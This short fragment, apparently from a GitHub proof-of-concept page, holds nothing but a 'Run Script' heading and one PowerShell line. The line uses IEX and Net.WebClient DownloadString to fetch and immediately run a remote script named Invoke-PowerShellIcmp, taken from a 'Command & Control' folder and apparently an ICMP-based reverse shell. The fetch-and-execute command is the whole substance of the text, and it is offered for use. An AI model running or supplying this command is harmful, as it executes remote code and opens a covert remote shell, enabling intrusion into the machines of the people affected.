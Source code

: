 
# Run Script

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/cyber-rangers/PoCs/main/Command%20%26%20Control/Invoke-PowerShellIcmp.ps1");Invoke-PowerShellIcmp